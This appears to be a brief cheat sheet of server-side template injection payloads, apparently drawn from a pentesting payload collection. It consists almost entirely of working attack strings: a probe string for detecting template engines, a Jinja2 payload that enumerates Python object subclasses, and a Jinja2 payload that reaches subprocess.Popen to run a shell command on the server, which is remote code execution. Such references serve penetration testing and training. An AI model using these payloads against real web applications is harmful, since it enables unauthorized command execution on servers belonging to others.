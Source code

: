# Server-Side Template Injection (SSTI)
```
${{<%[%'"}}%    # Special characteres for detection
{{7*7}}

```
## Python
### Jinja2
```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
```
Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
